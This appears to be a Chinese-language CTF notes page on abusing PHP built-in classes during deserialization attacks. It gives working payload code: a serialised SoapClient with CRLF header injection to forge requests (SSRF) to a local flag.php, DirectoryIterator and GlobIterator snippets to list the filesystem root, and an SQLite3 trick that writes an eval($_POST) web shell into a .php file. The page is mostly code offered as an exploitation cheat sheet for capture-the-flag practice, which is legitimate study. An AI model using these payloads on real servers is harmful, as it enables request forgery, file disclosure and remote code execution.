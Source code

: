 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # SoapClient
	- 可以向任意url post任意内容
	- 需要打开对应扩展才能使用
	- ```php
	  <?php
	  $s = "123";
	  $l = strlen($s);
	  $a = new SoapClient(
	    null,
	    array(
	        'uri'=>'bbb',
	        'location'=>'http://127.0.0.1:80/flag.php',
	        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $l\r\n\r\n$s"
	    )
	  );
	  echo urlencode(serialize($a));
	  // 利用：$a->notexist();
	  ?>
	  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- 可以读取文件夹
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- 可以使用glob读取文件夹
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTF/WP/GDOUCTF 2023 反方向的钟]]
- # SQLite
	- 可以实现文件创建/写入
	- ```php
	  <?php
	  // 创建或连接数据库
	  $db = new SQLite3('test.php');
	  
	  // 创建新表
	  $query = 'CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, email TEXT)';
	  $db->exec($query);
	  
	  // 向表中添加数据
	  $query = 'INSERT INTO users (username, email) VALUES (\'TestUser\', \'<?php eval($_POST["data"]);\')';
	  $db->exec($query);
	  
	  // 关闭数据库连接
	  $db->close();
	  
	  ```